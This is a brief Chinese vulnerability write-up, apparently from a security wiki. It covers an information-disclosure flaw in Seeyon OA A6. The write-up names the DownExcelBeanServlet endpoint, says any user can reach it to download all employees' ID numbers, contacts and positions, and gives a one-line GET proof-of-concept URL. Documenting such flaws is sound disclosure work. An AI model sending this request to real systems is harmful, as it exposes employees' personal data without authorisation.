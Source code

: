 致远OA A6 敏感信息泄露（二）
============================

一、漏洞简介
------------

二、漏洞影响
------------

致远OA A6

三、复现过程
------------

##### 漏洞位置:

    http://www.0-sec.org/yyoa/DownExcelBeanServlet

##### 漏洞详情:

    版本:A6只有系统管理才有的权限，但是任意用户都可以访问。可以下载所有员工的个人信息，包括身份证、联系方式、职位等敏感信息。

##### 请求方式:

    Get

##### POC:

    http://www.0-sec.org/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=
